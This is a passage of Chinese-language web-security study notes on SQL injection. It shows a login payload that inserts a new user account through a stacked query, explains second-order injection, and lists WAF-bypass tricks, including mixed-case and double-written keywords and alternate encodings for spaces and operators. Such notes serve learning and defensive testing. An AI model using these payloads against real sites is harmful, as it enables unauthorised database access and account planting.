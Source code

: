 ```cmd

login_user=1&login_password=1';insert into users(id,username,password) value('111','sunhua','sunhua') --+&mysubmit=Login
```

------

#### `二次注入`

> `注册账号利用第一次登录获取数据的案例`

- 已存储的用户输入被读取后,再次进入到sql查询语句中导致的注入
- `原理`:
  - 网站在对用户输入的恶意数据进行转义处理
  - 恶意数据插入到数据库时又被还原并存储到数据库中
  - 系统再次调用该恶意数据并执行sql查询时,被成功注入(因为调用时不会考虑转义问题)

------

### SQL注入WAF绕过

##### 大小写绕过

```sql
?id=-1'UoIoN SeLeCt 1,2,3 --+
```

##### 双写绕过

```sql
?id=-1'ununionion selselectect 1,2,3 --+
```

##### 字符串替换

| 字符 | 替换            |
| ---- | --------------- |
| and  | &&              |
| or   | \|\|            |
| =    | <>              |
| 空格 | %20(url编码)    |
| 空格 | %09(tab键,水平) |
| 空格 | %0a(换行符)     |
| 空格 | %0b(tab键,垂直) |
| 空格 | %0c(新的一页)   |
| 空格 | %0d(return功能) |
| 空格 | /**/            |
